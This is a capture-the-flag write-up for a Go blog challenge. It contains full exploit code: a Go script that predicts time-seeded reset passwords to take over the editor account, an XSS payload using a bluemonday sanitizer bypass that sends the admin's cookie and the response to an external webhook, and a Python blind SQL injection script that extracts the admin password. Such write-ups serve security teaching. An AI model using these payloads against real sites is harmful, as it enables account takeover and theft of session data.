




# Description

> My boss sucks. He keeps telling me to say that I like terrible movies. I can't publish anything without getting his okay. Can you figure out how to get into his account and publish some new articles for me?

# Flag

> **_flag{i_see_a_ship_in_the_harbor_i_can_and_shall_obey}_**

# Our Solution

## Enumerating Sourcecode

Attached with the challenge we find a zip-file: [_partial-src.zip_](assets/partial-src.zip).
Inside of the zip there are 4 golang files: _admin.go_, _comments.go_, _index.go_, and _main.go_.

Inspecting the source of _admin.go_ we find out that when we finally become admin we can get the flag by publishing a post.
However not only the `admin` can create posts, there also are editors. Editors are able to create posts but not editing them. First we should try to become `editor`.

Looking a bit further we can find some interesting code in _index.go_, there seems to be a password reset functionality.

It generates a password and sends this to the email the account is registered with.
Below is the code that is used to generate said password.

```go{linenos=false}
rand.Seed(time.Now().Unix())
password := []byte(fmt.Sprintf("%d\n", rand.Int()))
new_password := fmt.Sprintf("%x", md5.Sum(password))
fmt.Printf("%v", new_password)
```


This code is not the same as provided in the partial source. The bug in the format specifier has been fixed to correctly format integers. Calling `fmt.Sprintf("%s\n", 42)` returns `%!s(int=42)`. The live version calls `fmt.Sprintf("%d\n", 42)` instead, returning `42`.

```go{linenos=false}
rand.Seed(time.Now().Unix())
password := []byte(fmt.Sprintf("%s\n", rand.Int()))
new_password := fmt.Sprintf("%x", md5.Sum(password))
fmt.Printf("%v", new_password)
```



Something that struck my eye is that the code uses the current **unix timestamp** as a seed for the **random number generator**.
Can't we just reset the password for `admin` and guess the password?

Sadly this won't be possible because of this snippet of code at the beginning of the function. It detects if the user we are trying to reset is `admin` and won't let us do it.

```go{linenos=false}
if name == "admin" {
  c.HTML(http.StatusOK, "message.html", pongo2.Context{
    "message": "How dare you! My password can't be reset! Are you a criminal?",
  })
  return
}
```

## Becoming editor

However we can still do this to attack the `editor` user. We wrote the following script to do this task for us ([download](assets/generatePassword.go))

```go
package main

import (
	"bytes"
	"crypto/md5"
	"fmt"
	"io/ioutil"
	"math/rand"
	"net/http"
	"strings"
	"time"
)

const HOST = "https://thecybercoopctf-de6c63f7ea31-the-movie-blog-1.chals.io"

func rand_to_md5(rand int) string {
	str := fmt.Sprintf("%d\n", rand)
	// fmt.Printf("str: %s", str)
	hex := fmt.Sprintf("%x", md5.Sum([]byte(str)))
	return hex
}

func unix_to_md5(unix int64) string {
	rand.Seed(unix)
	return rand_to_md5(rand.Int())
}

func main() {
	timeOfReset := time.Now().Unix()

	// Send a POST request to /reset with the name of the user you want to reset the password for
	r, err := http.NewRequest("POST", HOST+"/reset", bytes.NewBufferString("name=editor"))
	if err != nil {
		panic(err)
	}
	r.Header.Add("Content-Type", "application/x-www-form-urlencoded")

	client := &http.Client{}
	resp, err := client.Do(r)
	if err != nil {
		panic(err)
	}
	defer resp.Body.Close()

	fmt.Printf("resp: %v\n", resp)

	// Get the body
	body, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		panic(err)
	}
	fmt.Printf("body: %s\n", body)

	// Wait for the email to be sent
	time.Sleep(10 * time.Second)

	for i := -5; i < 20; i++ {
		// Login as editor
		password := unix_to_md5(timeOfReset + int64(i))
		r, err = http.NewRequest("POST", HOST+"/login", bytes.NewBufferString("name=editor&password="+password))
		if err != nil {
			panic(err)
		}

		r.Header.Add("Content-Type", "application/x-www-form-urlencoded")

		resp, err = client.Do(r)
		if err != nil {
			panic(err)
		}
		defer resp.Body.Close()

		fmt.Printf("resp: %v\n", resp)

		// Get the body
		body, err = ioutil.ReadAll(resp.Body)
		if err != nil {
			panic(err)
		}
		if strings.Contains(string(body), "Couldn&#39;t find a user with those credentials") {
			fmt.Printf("Couldn't find a user with those credentials\n")
			continue
		}

		fmt.Printf("body: %s\n", body)
		fmt.Printf("password: %s", password)
		break
	}
}
```

We can run this script using `go run generatePassword.go`, it takes a while but when it finishes we receive a password we can use to login as `editor`.



## Logging in as Editor

When we are `editor` we are able to make posts.



We are maybe able to insert XSS inside our posts. Since the admin account will open newly created posts, this would allow us to grab his token and get the flag.

Trying this we find something out, our input is sanitized. There must be a way.
Searching the sourcecode we find out that there is a sanitizer

```go{linenos=false}
var (
	Sanitizer = bluemonday.UGCPolicy()
)
```

After searching the web we find this CVE: [CVE-2021-29272](https://kb.prohacktive.io/en/index.php?action=detail&id=CVE-2021-29272) and its related [Github Issue](https://github.com/microcosm-cc/bluemonday/issues/111)

Apparently due to the use of `.ToLower`, cyrillic characters would be converted back allowing you to bypass the sanitizer.
Attached is the following POC

```html{linenos=false}
<scrİpt>&lt;script&gt;alert(document.domain)&lt;/script&gt;
```

## Getting Admin and the flag

Lets create a post with the following payload.

```html{linenos=false}
<scrİpt>&lt;script&gt;fetch("/admin/posts/publish", { method: "POST" }).then(res => res.text()).then(flag => fetch("https://webhook.site/REDACTED?" + document.cookie, {
method: "POST",
body: flag,
}))&lt;/script&gt;
```

What this payload does is make the admin send a POST request to `/admin/posts/publish` and then send the response data to a website we control so we can get the body.
Inside of the request we will see the flag inside of the body.



Now after waiting we got a callback which contains the flag in its body!


Unfortunately the admin bot has been broken while trying to take screenshots for this writeup, this however is what the data looks like when we go to the page ourselves, when the bot goes to the page we would also see the flag in there




# Unintentional solve using SQL Injection (by @tomato6333)

Discussing this challenge in the Discord after the CTF we also discovered an unintentional solution, and we will need to thank `@tomato6333` for this.
They found out that there was an SQL Injection possible in the live version of the challenge.
Turns out there was also a CVE inside of the `go-gorm` library
This is the cve that was used [CVE-2019-15562](https://nvd.nist.gov/vuln/detail/CVE-2019-15562) and the GitHub issue containing both a fix and a revert of said fix: [https://github.com/go-gorm/gorm/issues/2517](https://github.com/go-gorm/gorm/issues/2517)

```py
import httpx
import string

def worked(response: str) -> bool:
    return "Welcome to my blog" in response

base = "https://thecybercoopctf-276d407aefc4-the-movie-blog-0.chals.io/"
target = "/id=1"

letters = string.digits + string.ascii_letters

c = httpx.Client(base_url=base)

print("logging in...", end="")
# for some reason, logging in with empty credentials works...
c.post("/login")
# who needs error handling
print("✅")

print("checking true positive...", end="")
if worked(c.get(target + " and 1=(select id from users where id=1)").text):
    print("✅")
else:
    print("❌")
    exit(0)
print("checking true negative...", end="")
if not worked(c.get(target + " and 1=(select id from users where id=2)").text):
    print("✅")
else:
    print("❌")
    exit(0)

password = ""
solved = False

print("solving...")

while not solved:
    for letter in letters:
        print(password + letter, end="\r")
        r = c.get(target + f" and 'admin' = (select role from users where id=1 and password like '{password+letter}%')")
        if worked(r.text):
            password += letter
            break
    else:
        solved=True

print(f"found password: {password}")
print("logging in...")
c.post("/login", data={"name": "admin", "password": password})

print("getting flag...", end="")
r = c.post("/admin/posts/publish")
flag = ""
try:
    flag = "flag" + r.text.split("flag")[1].split("}")[0] + "}"
    print(f"✅: {flag}")
except:
    print("❌")
```

# Conclusion

Overall was this a pretty fun challenge, the mismatch in server code and given code was a bit of a bummer.
